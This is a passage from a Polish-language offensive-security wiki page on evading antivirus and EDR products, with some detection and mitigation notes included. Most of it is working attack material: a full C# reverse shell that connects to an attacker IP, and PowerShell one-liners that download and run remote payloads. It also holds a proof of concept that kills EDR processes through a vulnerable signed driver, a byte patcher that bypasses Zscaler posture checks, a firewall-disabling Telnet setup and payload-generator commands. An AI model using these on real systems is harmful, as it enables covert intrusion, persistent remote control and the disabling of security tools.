autotok.sh Confused.exe  # wrapper that performs the 3 steps above sequentially
```
---

- [**InvisibilityCloak**](https://github.com/h4wkst3r/InvisibilityCloak)**: obfuscator C#**
- [**Obfuscator-LLVM**](https://github.com/obfuscator-llvm/obfuscator): Celem tego projektu jest dostarczenie open-source'owego forka pakietu kompilacyjnego [LLVM](http://www.llvm.org/), który zapewnia zwiększone bezpieczeństwo software'u poprzez [code obfuscation](<http://en.wikipedia.org/wiki/Obfuscation_(software)>) i ochronę przed manipulacją.
- [**ADVobfuscator**](https://github.com/andrivet/ADVobfuscator): ADVobfuscator demonstruje, jak używać języka `C++11/14` do generowania, w czasie kompilacji, obfuscated code bez korzystania z zewnętrznych narzędzi i bez modyfikowania kompilatora.
- [**obfy**](https://github.com/fritzone/obfy): Dodaje warstwę obfuscated operations generowanych przez framework C++ template metaprogramming, co nieco utrudnia życie osobie chcącej złamać aplikację.
- [**Alcatraz**](https://github.com/weak1337/Alcatraz)**:** Alcatraz to x64 binary obfuscator, który potrafi obfuscate różne pliki PE, w tym: .exe, .dll, .sys
- [**metame**](https://github.com/a0rtega/metame): Metame to prosty metamorphic code engine dla dowolnych plików wykonywalnych.
- [**ropfuscator**](https://github.com/ropfuscator/ropfuscator): ROPfuscator to fine-grained code obfuscation framework dla języków obsługiwanych przez LLVM, wykorzystujący ROP (return-oriented programming). ROPfuscator obfuscates program na poziomie kodu assembly, przekształcając standardowe instrukcje w ROP chains i udaremniając nasze naturalne rozumienie normalnego control flow.
- [**Nimcrypt**](https://github.com/icyguider/nimcrypt): Nimcrypt to .NET PE Crypter napisany w Nim
- [**inceptor**](https://github.com/klezVirus/inceptor)**:** Inceptor potrafi konwertować istniejące pliki EXE/DLL do shellcode, a następnie je ładować

## SmartScreen & MoTW

Być może widziałeś ten ekran podczas pobierania niektórych plików wykonywalnych z internetu i ich uruchamiania.

Microsoft Defender SmartScreen to mechanizm bezpieczeństwa mający chronić użytkownika końcowego przed uruchamianiem potencjalnie złośliwych aplikacji.

<figure><figcaption></figcaption></figure>

SmartScreen działa głównie w oparciu o reputację, co oznacza, że rzadko pobierane aplikacje wywołają SmartScreen, ostrzegając użytkownika końcowego i uniemożliwiając mu uruchomienie pliku (chociaż plik nadal można uruchomić, klikając More Info -> Run anyway).

**MoTW** (Mark of The Web) to [NTFS Alternate Data Stream](<https://en.wikipedia.org/wiki/NTFS#Alternate_data_stream_(ADS)>) o nazwie Zone.Identifier, który jest automatycznie tworzony podczas pobierania plików z internetu, wraz z adresem URL, z którego plik został pobrany.

<figure><figcaption><p>Sprawdzanie ADS Zone.Identifier dla pliku pobranego z internetu.</p></figcaption></figure>

> [!TIP]
> Należy pamiętać, że pliki wykonywalne podpisane **zaufanym** certyfikatem podpisu **nie wywołają SmartScreen**.

Bardzo skutecznym sposobem zapobiegania nadaniu payloadom Mark of The Web jest zapakowanie ich w kontener, taki jak ISO. Dzieje się tak, ponieważ Mark-of-the-Web (MOTW) **nie może** zostać zastosowany do woluminów **innych niż NTFS**.

<figure><figcaption></figcaption></figure>

[**PackMyPayload**](https://github.com/mgeeky/PackMyPayload/) to narzędzie pakujące payloads do kontenerów wyjściowych w celu ominięcia Mark-of-the-Web.

Przykładowe użycie:
```bash
PS C:\Tools\PackMyPayload> python .\PackMyPayload.py .\TotallyLegitApp.exe container.iso

+      o     +              o   +      o     +              o
+             o     +           +             o     +         +
o  +           +        +           o  +           +          o
-_-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-_-_-_-_-_-_-_,------,      o
:: PACK MY PAYLOAD (1.1.0)       -_-_-_-_-_-_-|   /\_/\
for all your container cravings   -_-_-_-_-_-~|__( ^ .^)  +    +
-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-__-_-_-_-_-_-_-''  ''
+      o         o   +       o       +      o         o   +       o
+      o            +      o    ~   Mariusz Banach / mgeeky    o
o      ~     +           ~          <mb [at] binary-offensive.com>
o           +                         o           +           +

[.] Packaging input file to output .iso (iso)...
Burning file onto ISO:
Adding file: /TotallyLegitApp.exe

[+] Generated file written to (size: 3420160): container.iso
```
Oto demonstracja obejścia SmartScreen przez pakowanie payloadów w pliki ISO za pomocą [PackMyPayload](https://github.com/mgeeky/PackMyPayload/)

<figure><figcaption></figcaption></figure>

## ETW

Event Tracing for Windows (ETW) to potężny mechanizm logowania w Windows, który pozwala aplikacjom i komponentom systemu **rejestrować zdarzenia**. Może być jednak również wykorzystywany przez produkty bezpieczeństwa do monitorowania i wykrywania złośliwych działań.

Podobnie jak w przypadku wyłączenia (obejścia) AMSI, możliwe jest również sprawienie, aby funkcja **`EtwEventWrite`** procesu działającego w user space natychmiast zwracała wynik bez rejestrowania żadnych zdarzeń. Osiąga się to przez spatchowanie funkcji w pamięci tak, aby natychmiast zwracała wynik, skutecznie wyłączając logowanie ETW dla tego procesu.

Więcej informacji znajdziesz tutaj: **[https://blog.xpnsec.com/hiding-your-dotnet-etw/](https://blog.xpnsec.com/hiding-your-dotnet-etw/) oraz [https://github.com/repnz/etw-providers-docs/](https://github.com/repnz/etw-providers-docs/)**.<sup>[[33]](#references)[[34]](#references)</sup>


## C# Assembly Reflection

Ładowanie binariów C# w pamięci jest znane od dłuższego czasu i nadal stanowi bardzo dobry sposób uruchamiania narzędzi post-exploitation bez wykrycia przez AV.

Ponieważ payload zostanie załadowany bezpośrednio do pamięci, bez zapisywania go na dysku, będziemy musieli martwić się jedynie o spatchowanie AMSI dla całego procesu.

Większość frameworków C2 (sliver, Covenant, metasploit, CobaltStrike, Havoc itd.) zapewnia już możliwość wykonywania C# assemblies bezpośrednio w pamięci, ale można to zrobić na różne sposoby:

- **Fork\&Run**

Polega to na **uruchomieniu nowego sacrificial process**, wstrzyknięciu do niego złośliwego kodu post-exploitation, wykonaniu tego kodu, a następnie zakończeniu nowego procesu. Ma to zarówno zalety, jak i wady. Zaletą metody fork and run jest to, że wykonanie odbywa się **poza** procesem naszego implantu Beacon. Oznacza to, że jeśli coś pójdzie nie tak podczas działania post-exploitation lub zostanie wykryte, istnieje **znacznie większa szansa**, że nasz **implant przetrwa**. Wadą jest **większe prawdopodobieństwo** wykrycia przez **Behavioural Detections**.

<figure><figcaption></figcaption></figure>

- **Inline**

Polega to na wstrzyknięciu złośliwego kodu post-exploitation **do własnego procesu**. Dzięki temu można uniknąć tworzenia nowego procesu i jego skanowania przez AV, ale wadą jest to, że jeśli coś pójdzie nie tak podczas wykonywania payloadu, istnieje **znacznie większa szansa** na **utratę beacona**, ponieważ proces może ulec awarii.

<figure><figcaption></figcaption></figure>

> [!TIP]
> Jeśli chcesz dowiedzieć się więcej o ładowaniu C# Assembly, zapoznaj się z tym artykułem [https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/](https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/) oraz ich InlineExecute-Assembly BOF ([https://github.com/xforcered/InlineExecute-Assembly](https://github.com/xforcered/InlineExecute-Assembly))

Możesz również ładować C# Assemblies **z PowerShell**. Sprawdź [Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader) oraz [wideo S3cur3th1sSh1t](https://www.youtube.com/watch?v=oe11Q-3Akuk).

## Using Other Programming Languages

Jak opisano w [**https://github.com/deeexcee-io/LOI-Bins**](https://github.com/deeexcee-io/LOI-Bins), możliwe jest wykonywanie złośliwego kodu przy użyciu innych języków przez zapewnienie zaatakowanej maszynie dostępu **do środowiska interpretera zainstalowanego na kontrolowanym przez Attackera SMB share**.

Zapewniając dostęp do Interpreter Binaries i środowiska na SMB share, można **wykonywać dowolny kod w tych językach w pamięci** zaatakowanej maszyny.

Repozytorium wskazuje, że Defender nadal skanuje skrypty, ale dzięki wykorzystaniu Go, Java, PHP itd. uzyskujemy **większą elastyczność w omijaniu sygnatur statycznych**. Testy z losowymi, nieobfuskowanymi skryptami reverse shell w tych językach zakończyły się powodzeniem.

## TokenStomping

Token stomping manipuluje access tokenem produktu bezpieczeństwa, takiego jak EDR lub AV. Ograniczenie uprawnień tokena może pozostawić proces uruchomiony, jednocześnie uniemożliwiając mu wykonywanie uprzywilejowanych działań inspekcyjnych lub naprawczych.

Aby temu zapobiec, Windows mógłby **uniemożliwić procesom zewnętrznym** uzyskiwanie uchwytów do tokenów procesów bezpieczeństwa.

- [**https://github.com/pwn1sher/KillDefender/**](https://github.com/pwn1sher/KillDefender/)
- [**https://github.com/MartinIngesen/TokenStomp**](https://github.com/MartinIngesen/TokenStomp)
- [**https://github.com/nick-frischkorn/TokenStripBOF**](https://github.com/nick-frischkorn/TokenStripBOF)

## Using Trusted Software

### Chrome Remote Desktop

Jak opisano w [**tym wpisie na blogu**](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide), łatwo jest wdrożyć Chrome Remote Desktop na komputerze ofiary, a następnie użyć go do przejęcia nad nim kontroli i utrzymania persistence:<sup>[[35]](#references)</sup>
1. Pobierz program ze strony https://remotedesktop.google.com/, kliknij „Set up via SSH”, a następnie kliknij plik MSI dla Windows, aby go pobrać.
2. Uruchom instalator po cichu na komputerze ofiary (wymagane uprawnienia administratora): `msiexec /i chromeremotedesktophost.msi /qn`
3. Wróć do strony Chrome Remote Desktop i kliknij Next. Kreator poprosi następnie o autoryzację; kliknij przycisk Authorize, aby kontynuować.
4. Wykonaj dostarczone polecenie, wprowadzając wymagane zmiany: `"%PROGRAMFILES(X86)%\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe" --code="YOUR_UNIQUE_CODE" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=%COMPUTERNAME% --pin=111111` (parametr `--pin` ustawia PIN bez używania GUI).


## Advanced Evasion

Evasion to bardzo złożony temat. Czasami trzeba uwzględnić wiele różnych źródeł telemetry w jednym systemie, dlatego w dojrzałych środowiskach całkowite pozostanie niewykrytym jest praktycznie niemożliwe.

Każde środowisko, z którym się mierzysz, będzie miało własne mocne i słabe strony.

Gorąco zachęcam do obejrzenia tego wystąpienia [@ATTL4S](https://twitter.com/DaniLJ94), aby uzyskać podstawowe rozeznanie w bardziej zaawansowanych technikach Evasion.


{{#ref}}
https://vimeo.com/502507556?embedded=true&owner=32913914&source=vimeo_logo
{{#endref}}

To także świetne wystąpienie [@mariuszbit](https://twitter.com/mariuszbit) poświęcone Evasion in Depth.


{{#ref}}
https://www.youtube.com/watch?v=IbA7Ung39o4
{{#endref}}

## **Old Techniques**

### **Check which parts Defender finds as malicious**

Możesz użyć [**ThreatCheck**](https://github.com/rasta-mouse/ThreatCheck), który będzie **usuwał fragmenty binarium**, aż **ustali, który fragment Defender** wykrywa jako złośliwy, i wyodrębni go dla Ciebie.\
Innym narzędziem wykonującym **to samo zadanie jest** [**avred**](https://github.com/dobin/avred), a usługa jest dostępna w otwartej sieci pod adresem [**https://avred.r00ted.ch/**](https://avred.r00ted.ch/)

### **Telnet Server**

Do Windows10 wszystkie systemy Windows zawierały **Telnet server**, który można było zainstalować (jako administrator), wykonując:
```bash
pkgmgr /iu:"TelnetServer" /quiet
```
Uruchamiaj przy starcie systemu i uruchom teraz:
```bash
sc config TlntSVR start= auto obj= localsystem
```
**Zmień port telnetu** (stealth) **i wyłącz firewall:**
```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```
### UltraVNC

Pobierz je z: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (potrzebne są pliki binarne, a nie setup)

**NA HOŚCIE**: Uruchom _**winvnc.exe**_ i skonfiguruj server:

- Włącz opcję _Disable TrayIcon_
- Ustaw hasło w _VNC Password_
- Ustaw hasło w _View-Only Password_

Następnie przenieś plik binarny _**winvnc.exe**_ oraz **nowo utworzony** plik _**UltraVNC.ini**_ na **victim**

#### Reverse connection

**Attacker** powinien **uruchomić na swoim hoście** plik binarny `vncviewer.exe -listen 5900`, aby był **przygotowany** na odebranie reverse **VNC connection**. Następnie na **victim**: Uruchom daemon winvnc `winvnc.exe -run` i wykonaj `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900`

**OSTRZEŻENIE:** Aby zachować stealth, nie wolno wykonywać kilku czynności

- Nie uruchamiaj `winvnc`, jeśli już działa, ponieważ wywołasz [wyskakujące okno](https://i.imgur.com/1SROTTl.png). Sprawdź, czy działa, używając `tasklist | findstr winvnc`
- Nie uruchamiaj `winvnc` bez pliku `UltraVNC.ini` w tym samym katalogu, ponieważ spowoduje to otwarcie [okna konfiguracji](https://i.imgur.com/rfMQWcf.png)
- Nie uruchamiaj `winvnc -h` w celu uzyskania pomocy, ponieważ wywołasz [wyskakujące okno](https://i.imgur.com/oc18wcu.png)

### GreatSCT

Pobierz je z: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```
Wewnątrz GreatSCT:
```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```
Teraz **uruchom lister** za pomocą `msfconsole -r file.rc` i **wykonaj** **xml payload** za pomocą:
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```
**Obecny defender bardzo szybko zakończy proces.**

### Kompilowanie własnego reverse shell

https://medium.com/@Bank_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### Pierwszy C# Revershell

Skompiluj go za pomocą:
```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```
Użyj tego z:
```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
public class Program
{
static StreamWriter streamWriter;

public static void Main(string[] args)
{
using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
{
using(Stream stream = client.GetStream())
{
using(StreamReader rdr = new StreamReader(stream))
{
streamWriter = new StreamWriter(stream);

StringBuilder strInput = new StringBuilder();

Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.CreateNoWindow = true;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardInput = true;
p.StartInfo.RedirectStandardError = true;
p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
p.Start();
p.BeginOutputReadLine();

while(true)
{
strInput.Append(rdr.ReadLine());
//strInput.Append("\n");
p.StandardInput.WriteLine(strInput);
strInput.Remove(0, strInput.Length);
}
}
}
}
}

private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
{
StringBuilder strOutput = new StringBuilder();

if (!String.IsNullOrEmpty(outLine.Data))
{
try
{
strOutput.Append(outLine.Data);
streamWriter.WriteLine(strOutput);
streamWriter.Flush();
}
catch (Exception err) { }
}
}

}
}
```
### C# przy użyciu kompilatora
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```
[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

Automatyczne pobieranie i wykonanie:
```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```
{{#ref}}
https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f
{{#endref}}

Lista obfuscatorów C#: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++
```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
- [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
- [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
- [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
- [https://github.com/l0ss/Grouper2](https://github.com/l0ss/Grouper2)
- [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
- [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)

### Przykład użycia Pythona do budowania injectorów:

- [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### Inne narzędzia
```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```
### Więcej

- [https://github.com/Seabreg/Xeexe-TopAntivirusEvasion](https://github.com/Seabreg/Xeexe-TopAntivirusEvasion)

## Bring Your Own Vulnerable Driver (BYOVD) – zabijanie AV/EDR z poziomu kernel space

Storm-2603 wykorzystał małe narzędzie konsolowe znane jako **Antivirus Terminator** do wyłączenia zabezpieczeń endpointów przed wdrożeniem ransomware. Narzędzie dostarcza **własny podatny, ale *podpisany* driver** i nadużywa go do wykonywania uprzywilejowanych operacji kernelowych, których nie mogą zablokować nawet usługi AV działające jako Protected-Process-Light (PPL).<sup>[[12]](#references)</sup>

Najważniejsze informacje
1. **Podpisany driver**: Plik dostarczany na dysk to `ServiceMouse.sys`, ale binarnie jest to legalnie podpisany driver `AToolsKrnl64.sys` pochodzący z „System In-Depth Analysis Toolkit” firmy Antiy Labs. Ponieważ driver ma ważny podpis Microsoft, ładuje się nawet wtedy, gdy włączone jest Driver-Signature-Enforcement (DSE).
2. **Instalacja usługi**:
```powershell
sc create ServiceMouse type= kernel binPath= "C:\Windows\System32\drivers\ServiceMouse.sys"
sc start  ServiceMouse
```
Pierwszy wiersz rejestruje driver jako **usługę kernel**, a drugi go uruchamia, dzięki czemu `\\.\ServiceMouse` staje się dostępny z user land.
3. **IOCTL udostępniane przez driver**
| Kod IOCTL | Możliwość                              |
|-----------:|-----------------------------------------|
| `0x99000050` | Zakończenie dowolnego procesu według PID (używane do zabijania usług Defender/EDR) |
| `0x990000D0` | Usunięcie dowolnego pliku z dysku |
| `0x990001D0` | Wyładowanie drivera i usunięcie usługi |

Minimalny proof-of-concept w C:
```c
#include <windows.h>

int main(int argc, char **argv){
DWORD pid = strtoul(argv[1], NULL, 10);
HANDLE hDrv = CreateFileA("\\\\.\\ServiceMouse", GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
DeviceIoControl(hDrv, 0x99000050, &pid, sizeof(pid), NULL, 0, NULL, NULL);
CloseHandle(hDrv);
return 0;
}
```
4. **Dlaczego to działa**: BYOVD całkowicie omija zabezpieczenia user-mode; kod wykonywany w kernel może otwierać *chronione* procesy, kończyć je lub manipulować obiektami kernel, niezależnie od PPL/PP, ELAM i innych funkcji hardeningu.

Wykrywanie / ograniczanie ryzyka
•  Włącz listę blokowanych podatnych driverów firmy Microsoft (`HVCI`, `Smart App Control`), aby Windows odmawiał załadowania `AToolsKrnl64.sys`.
•  Monitoruj tworzenie nowych usług *kernel* i generuj alerty, gdy driver jest ładowany z katalogu zapisywalnego przez wszystkich użytkowników lub nie znajduje się na allow-liście.
•  Monitoruj uchwyty user-mode do niestandardowych obiektów urządzeń, po których następują podejrzane wywołania `DeviceIoControl`.

### Omijanie kontroli stanu Zscaler Client Connector przez patchowanie binariów na dysku

**Client Connector** firmy Zscaler stosuje lokalne reguły stanu urządzenia i korzysta z Windows RPC do przekazywania wyników innym komponentom. Dwie słabe decyzje projektowe umożliwiają pełne obejście:

1. Ocena stanu odbywa się **całkowicie po stronie klienta** (do serwera wysyłana jest wartość boolean).
2. Wewnętrzne endpointy RPC sprawdzają wyłącznie, czy łączący się executable jest **podpisany przez Zscaler** (za pomocą `WinVerifyTrust`).<sup>[[11]](#references)</sup>

Przez **spatchowanie czterech podpisanych binariów na dysku** można zneutralizować oba mechanizmy:

| Binary | Spatchowana oryginalna logika | Rezultat |
|--------|------------------------|---------|
| `ZSATrayManager.exe` | `devicePostureCheck() → return 0/1` | Zawsze zwraca `1`, więc każda kontrola kończy się statusem zgodnym |
| `ZSAService.exe` | Pośrednie wywołanie `WinVerifyTrust` | Zastąpione przez NOP ⇒ dowolny proces, nawet niepodpisany, może podłączyć się do pipes RPC |
| `ZSATrayHelper.dll` | `verifyZSAServiceFileSignature()` | Zastąpione przez `mov eax,1 ; ret` |
| `ZSATunnel.exe` | Kontrole integralności tunelu | Pominięte |

Fragment minimalnego patchera:
```python
pattern = bytes.fromhex("44 89 AC 24 80 02 00 00")
replacement = bytes.fromhex("C6 84 24 80 02 00 00 01")  # force result = 1

with open("ZSATrayManager.exe", "r+b") as f:
data = f.read()
off = data.find(pattern)
if off == -1:
print("pattern not found")
else:
f.seek(off)
f.write(replacement)
```
Po zastąpieniu oryginalnych plików i ponownym uruchomieniu stosu usług:

* **Wszystkie** kontrole stanu wyświetlają **zielony/zgodny** status.
* Niepodpisane lub zmodyfikowane pliki binarne mogą otwierać nazwane punkty końcowe RPC (np. `\\RPC Control\\ZSATrayManager_talk_to_me`).
* Przejęty host zyskuje nieograniczony dostęp do sieci wewnętrznej zdefiniowanej przez zasady Zscaler.

To case study pokazuje, jak decyzje dotyczące zaufania podejmowane wyłącznie po stronie klienta oraz proste kontrole sygnatur można obejść za pomocą kilku poprawek bajtowych.

## Wykorzystanie Protected Process Light (PPL) do modyfikowania AV/EDR za pomocą LOLBINs

Protected Process Light (PPL) wymusza hierarchię sygnatariuszy i poziomów, tak aby tylko procesy chronione na równym lub wyższym poziomie mogły modyfikować siebie nawzajem. Z perspektywy ofensywnej, jeśli można legalnie uruchomić plik binarny obsługujący PPL i kontrolować jego argumenty, można przekształcić benigną funkcjonalność (np. logowanie) w ograniczony, wspierany przez PPL prymityw zapisu do chronionych katalogów używanych przez AV/EDR.<sup>[[16]](#references)[[17]](#references)[[18]](#references)[[19]](#references)[[20]](#references)</sup>

Co sprawia, że proces działa jako PPL
- Docelowy EXE (oraz wszystkie załadowane biblioteki DLL) musi być podpisany za pomocą EKU obsługującego PPL.
- Proces musi zostać utworzony za pomocą CreateProcess z użyciem flag: `EXTENDED_STARTUPINFO_PRESENT | CREATE_PROTECTED_PROCESS`.
- Należy zażądać zgodnego poziomu ochrony odpowiadającego sygnatariuszowi pliku binarnego (np. `PROTECTION_LEVEL_ANTIMALWARE_LIGHT` dla sygnatariuszy anti-malware, `PROTECTION_LEVEL_WINDOWS` dla sygnatariuszy Windows). Nieprawidłowe poziomy spowodują niepowodzenie tworzenia procesu.

Zobacz także szersze wprowadzenie do PP/PPL i ochrony LSASS:

{{#ref}}
stealing-credentials/credentials-protections.md
{{#endref}}

Narzędzia uruchamiające
- Helper open source: CreateProcessAsPPL (wybiera poziom ochrony i przekazuje argumenty do docelowego EXE):
- [https://github.com/2x7EQ13/CreateProcessAsPPL](https://github.com/2x7EQ13/CreateProcessAsPPL)<sup>[[19]](#references)</sup>
- Schemat użycia:
```text
CreateProcessAsPPL.exe <level 0..4> <path-to-ppl-capable-exe> [args...]
# example: spawn a Windows-signed component at PPL level 1 (Windows)
CreateProcessAsPPL.exe 1 C:\Windows\System32\ClipUp.exe <args>
# example: spawn an anti-malware signed component at level 3
CreateProcessAsPPL.exe 3 <anti-malware-signed-exe> <args>
```
LOLBIN primitive: ClipUp.exe
- Podpisany systemowy binary `C:\Windows\System32\ClipUp.exe` uruchamia własny proces potomny i przyjmuje parametr umożliwiający zapisanie pliku logu w ścieżce określonej przez wywołującego.
- Po uruchomieniu jako proces PPL zapis pliku odbywa się z wykorzystaniem PPL.
- ClipUp nie potrafi analizować ścieżek zawierających spacje; użyj krótkich ścieżek 8.3, aby wskazać normalnie chronione lokalizacje.

8.3 short path helpers
- Wyświetl krótkie nazwy: `dir /x` w każdym katalogu nadrzędnym.
- Wyznacz krótką ścieżkę w cmd: `for %A in ("C:\ProgramData\Microsoft\Windows Defender\Platform") do @echo %~sA`

Abuse chain (abstract)
1) Uruchom LOLBIN obsługujący PPL (ClipUp) z `CREATE_PROTECTED_PROCESS` przy użyciu launchera (np. CreateProcessAsPPL).
2) Przekaż argument ścieżki logu ClipUp, aby wymusić utworzenie pliku w chronionym katalogu AV (np. Defender Platform). W razie potrzeby użyj krótkich nazw 8.3.
3) Jeśli docelowy binary jest zwykle otwarty/zablokowany przez AV podczas działania (np. MsMpEng.exe), zaplanuj zapis podczas boot, zanim uruchomi się AV, instalując usługę auto-start, która niezawodnie uruchamia się wcześniej. Zweryfikuj kolejność bootowania za pomocą Process Monitor (boot logging).
4) Po ponownym uruchomieniu zapis obsługiwany przez PPL następuje przed zablokowaniem binary przez AV, uszkadzając plik docelowy i uniemożliwiając uruchomienie.

Example invocation (paths redacted/shortened for safety):
```text
# Run ClipUp as PPL at Windows signer level (1) and point its log to a protected folder using 8.3 names
CreateProcessAsPPL.exe 1 C:\Windows\System32\ClipUp.exe -ppl C:\PROGRA~3\MICROS~1\WINDOW~1\Platform\<ver>\samplew.dll
```
Uwagi i ograniczenia
- Nie można kontrolować zawartości zapisywanej przez ClipUp, a jedynie jej lokalizację; primitive nadaje się do corruption, a nie do precyzyjnego wstrzykiwania zawartości.
- Wymaga lokalnych uprawnień administratora/SYSTEM do zainstalowania/uruchomienia usługi oraz okna czasowego na reboot.
- Kluczowe jest właściwe wyczucie czasu: cel nie może być otwarty; wykonanie podczas boot pozwala uniknąć blokad plików.

Detections
- Tworzenie procesu `ClipUp.exe` z nietypowymi argumentami, szczególnie gdy jego parentem są niestandardowe launchery, w pobliżu boot.
- Nowe usługi skonfigurowane do automatycznego uruchamiania podejrzanych plików binarnych i konsekwentnie uruchamiane przed Defender/AV. Należy zbadać tworzenie/modyfikację usług poprzedzające błędy uruchamiania Defendera.
- Monitorowanie integralności plików binarnych Defendera/katalogów Platform; nieoczekiwane tworzenie/modyfikacje plików przez procesy z flagami protected-process.
- Telemetria ETW/EDR: należy szukać procesów tworzonych z `CREATE_PROTECTED_PROCESS` oraz anomalnego użycia poziomu PPL przez pliki binarne inne niż AV.

Mitigations
- WDAC/Code Integrity: ograniczyć, które podpisane pliki binarne mogą działać jako PPL i z którymi parentami; blokować wywołania ClipUp poza uzasadnionymi kontekstami.
- Service hygiene: ograniczyć tworzenie/modyfikowanie usług uruchamianych automatycznie oraz monitorować manipulowanie kolejnością uruchamiania.
- Upewnić się, że tamper protection Defendera i zabezpieczenia early-launch są włączone; badać błędy uruchamiania wskazujące na corruption plików binarnych.
- Rozważyć wyłączenie generowania krótkich nazw 8.3 na woluminach zawierających security tooling, jeśli jest to zgodne ze środowiskiem (dokładnie przetestować).

## Tampering Microsoft Defender via Platform Version Folder Symlink Hijack

Windows Defender wybiera platformę, z której działa, przez wyliczenie podkatalogów w:
- `C:\ProgramData\Microsoft\Windows Defender\Platform\`

